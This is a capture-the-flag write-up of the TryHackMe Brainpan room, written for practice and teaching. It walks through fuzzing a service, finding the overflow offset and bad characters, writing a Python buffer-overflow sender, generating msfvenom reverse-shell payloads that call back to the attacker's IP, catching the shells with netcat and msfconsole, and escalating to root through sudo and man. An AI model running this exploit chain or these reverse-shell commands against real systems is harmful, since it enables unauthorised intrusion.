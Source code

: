 ```yaml
---
title: Brainpan Write-up | TryHackMe
slug: brainpan
author: Utkarsh M
date: '2022-06-14'
description: "TryHackMe Brainpan walkthrough and solution."
categories:
  - TryHackMe
tags:
  - write up
  - tryhackme
  - ctf
  - hard
  - red team

---
```


## ![screenshot](/assets/img/thm/Brainpan/1.png)

Running a threader3000 scan:

```bash
python threader3000.py
10.10.142.220
```

![screenshot](/assets/img/thm/Brainpan/2.png)

running suggested scan:

![screenshot](/assets/img/thm/Brainpan/3.png)

So our program runs at 9999 port, lets checkout the http server running at port 10000.

![screenshot](/assets/img/thm/Brainpan/4.png)

Running a dirbuster directory scan on the webserver:

```bash
gobuster dir --wordlist=/usr/share/dict/directory-list-2.3-medium.txt --url=http://10.10.142.220:10000/
```

![screenshot](/assets/img/thm/Brainpan/5.png)

and we have :) brainpan.exe. switching to windows VM and opening it in immunity debugger. :) Lets try interacting with it using netcat.

![screenshot](/assets/img/thm/Brainpan/6.png)

finding an offset: :) lets use pattern_create.rb from metasploit tools.

```
/opt/metasploit-git/tools/exploit/pattern_create.rb -l length
```

So starting the length from 100, Trying by multiplying length by 2. we Finally crash at 800.

lets find the offset by using mona.

Lets setup mona configuration first:

```shell
!mona config -set workingfolder c:\mona\%p
```

finding the offset :)

```shell
!mona findmsp -distance 800
```

![screenshot](/assets/img/thm/Brainpan/7.png)

We can see that the offset is 524. :)

writing a python script to send payloads :)

```python
import socket
import struct
TCP_IP = '192.168.122.138'
TCP_PORT = 9999
BUFFER_SIZE = 1024
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((TCP_IP, TCP_PORT ))
payload = ""
overflow = "A"*524
retn = ""
padding = ""
msg = overflow + retn + padding + payload
s.recv(BUFFER_SIZE);
s.send(bytes(msg, "latin-1"))
print(s.recv(BUFFER_SIZE));
s.close()
print( "done")
```

:) Now we need to find the bad chars.

generating bytearray using mona:

```shell
!mona bytearray -b "\x00"
```

generating input byte array using python script:

```python
for x in range(1, 256):
print("\\x" + "{:02x}".format(x), end='')
print()
```

:) using it as the payload, BBBB as the return value and comparing using mona:

```shell
!mona compare -f "c:\mona\brainpan\bytearray.bin" -a MSP
```

![screenshot](/assets/img/thm/Brainpan/8.png)

Unmodified, So we are good to go. :)

Lets find a vulnerable JMP ESP return instruction using mona:

```shell
!mona jmp -r esp -cpb "\x00"
```

![screenshot](/assets/img/thm/Brainpan/9.png)

There’s only a single instruction. :) Lets use its address as the retn value:

Since we have to use little endian format, the retn value will be: `\xf3\x12\x17\x31`

Now Lets create a reverse shell payload, :) directly for meterpreter this time:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.17.47.158 LPORT=4444 -a x86 -b '\x00' -f c
```

Meterpreter, Launch Console & Load Handler:

```bash
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 10.17.47.158; set LPORT 4444; run"
```

Lets use a NOP padding of 16 bytes:

trying the payload on local VM machine:

![screenshot](/assets/img/thm/Brainpan/10.png)

success: :)

Lets try it on the THM machine.

![screenshot](/assets/img/thm/Brainpan/11.png)

success :P

OS info:

```
meterpreter > sysinfo
Computer        : brainpan
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : brainpan
Logged On Users : 1
Meterpreter     : x86/windows
```

_using meterpreter’s getsystem, We directly gain root privileges._

_Trying manual privilege escalation_ by using a shell and restarting the server:( I was not able to launch a shell in meterpreter due to the thread impersonation hellllll)

generating new payload:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=MY_MACHINE_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```

setting up netcat listener

```bash
nc -lvnp 4444
```

![screenshot](/assets/img/thm/Brainpan/12.png)

WEIRD linux directories :o, damn. a lot of the things don’t work. :) at least we have python, which we can’t use and a lot of stuff like whoami doesn’t work either. ;-;

F, Hmm, It’s actually a linux machine running the program using wine. :\_; Got to know that, We can try a linux payload directly. + i couldn’t find a way to get out of the cmd shell using wineconsole. :O

so a new msfvenom :\_; payload:

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.17.47.158 LPORT=4444 -b '\x00' EXITFUNC=thread -f c
```

![screenshot](/assets/img/thm/Brainpan/13.png)

better shell:

```shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

Hmm, lets start enumeration :)

```shell
sudo -l
```

We see an interesting application anansi_util.

![screenshot](/assets/img/thm/Brainpan/14.png)

launching the application with sudo :

![screenshot](/assets/img/thm/Brainpan/15.png)

so it seems to run shell commands inside. The first one runs ifconfig, while I get an error on the 2nd one about my terminal being unknown while the third gives man pages.

After checking out these applications in GTFObins, we can see that there is a sudo exploit available for man. :) lets exploit.

![screenshot](/assets/img/thm/Brainpan/16.png)

![screenshot](/assets/img/thm/Brainpan/17.png)

## :) Success.
